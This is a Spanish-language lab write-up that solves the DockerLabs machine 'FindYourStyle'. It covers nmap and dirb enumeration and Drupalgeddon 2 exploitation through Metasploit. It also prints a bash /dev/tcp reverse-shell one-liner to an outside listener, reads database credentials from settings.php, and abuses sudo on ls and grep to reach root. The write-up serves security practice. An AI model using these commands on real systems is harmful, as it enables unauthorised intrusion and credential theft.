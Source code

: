 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - DockerLabs
  - Easy
  - Linux
  - HTTP
  - Drupal
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#HTTP|HTTP]]
	- [[#Explotación#Mestasploit|Mestasploit]]
	- [[#Explotación#Escalada de privilegios|Escalada de privilegios]]
	- [[#Explotación#Sudo|Sudo]]

---
# Resolviendo la máquina FindYourStyle

>En esta publicación, comparto cómo resolví la máquina **FindYourStyle** de [DockerLabs](https://dockerlabs.es/).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 172.17.0.2`

![[Pasted image 20250715184605.png]]

*TTL=64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts`

![[Pasted image 20250715184714.png]]

`nmap -p80 -sCV 172.17.0.2 -oN targeted`

![[Pasted image 20250715184743.png]]

![[Pasted image 20250715184854.png]]
### Fuzzing Web

`dirb http://172.17.0.2/`

![[Pasted image 20250715185738.png]]

---
## Explotación
### HTTP

`http://172.17.0.2/index.php/`

![[Pasted image 20250715185816.png]]
### Mestasploit

Se utiliza un módulo de *Metasploit* para explotar una vulnerabilidad crítica en **Drupal** conocida como *Drupalgeddon 2*.

`exploit/unix/webapp/drupal_drupalgeddon2`

```
search exploit/unix/webapp/drupal_drupalgeddon2
use 0 | use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOSTS http://172.17.0.2/index.php/
exploit
```

![[Pasted image 20250715190038.png]]

![[Pasted image 20250715190055.png]]

`shell`

`/bin/bash -i`
 
Se establece una *reverse shell* para mantener el acceso persistente.

`nc -nlvp 4444`

`bash -c "sh -i >& /dev/tcp/192.168.1.127/4444 0>&1"`

![[Pasted image 20250715193635.png]]

Se realiza el tratamiento de la terminal.

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

![[Pasted image 20250715193729.png]]
### Escalada de privilegios

`cd var/www/html/sites/default`

`cat settings.php `

![[Pasted image 20250715191433.png]]

`su ballenita`

![[Pasted image 20250715192259.png]]
### Sudo

Se realiza una búsqueda de permisos **sudo**.

`sudo -l`

![[Pasted image 20250715193118.png]]

Se observa varios permisos sospechoso: */bin/ls* y */bin/grep*. 

Con */bin/ls* podemos listar directorios sin tener permisos y con */bin/grep* podemos leer archivos.

`sudo /bin/ls /root`

![[Pasted image 20250715193346.png]]

`sudo /bin/grep /root/secretitomaximo.txt`

![[Pasted image 20250715193413.png]]

`su root`

![[Pasted image 20250715193439.png]]

---